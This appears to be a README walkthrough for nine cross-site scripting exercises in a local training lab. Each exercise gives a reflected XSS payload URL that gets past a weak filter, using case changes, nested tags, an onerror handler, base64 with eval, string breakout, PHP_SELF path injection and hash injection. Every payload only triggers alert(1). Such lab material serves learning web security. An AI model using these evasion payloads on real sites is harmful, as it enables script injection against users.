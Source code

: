 # XSS (Cross Site Scripting)

There are nine XSS examples.

## 1

This example just takes the input directly from the URL and inserts it into the page.

http://localhost:31337/xss/example1.php?name=<script>alert(1);</script>

## 2

This article attempts filtering by removing every instance of `<script>` and `</script>` from the input.

http://localhost:31337/xss/example2.php?name=<SCRIPT>alert(1);</SCRIPT>

## 3

Now it's case insensitive. However, it only does one pass, leading to the following bypass:

http://localhost:31337/xss/example3.php?name=<scr<script>ipt>alert(1);</scr</script>ipt>

## 4

They're catching on now, and blocking all script tags. However, there are other ways to execute scripts on the page.

http://localhost:31337/xss/example4.php?name=<img src="slothlife" onerror="alert(1);">

## 5

In this example they've simply blocked the "alert" keyword. Nothing a little base64 + eval can't get around.

http://localhost:31337/xss/example5.php?name=<script>eval(atob('YWxlcnQoMSk7'));</script>

## 6

This spits your input out in the middle of a javascript string declaration. To execute some of our own javascript, we just have to end the string declaration and insert our code. The comment on the end is to avoid any syntax errors.

http://localhost:31337/xss/example6.php?name=hello%22;%20alert%281%29;//

## 7

This is the same as 6, but with ' instead of ", and you have to deal with `htmlentities()`.

http://localhost:31337/xss/example7.php?name=hello%27;%20alert%281%29;//

## 8

This example presents a form, which is actually a decoy. You may notice from the code that the form action is filled in from the `$_SERVER["PHP_SELF"]` variable, which is just a reflection of the path. We can insert our code using this as our vector.

http://localhost:31337/xss/example8.php/"><script>alert(1)</script>

## 9

Similar to the last attack, just using the hash as the vector rather than a standard parameter.

http://localhost:31337/xss/example9.php#%3Cscript%3Ealert%281%29%3C/script%3E
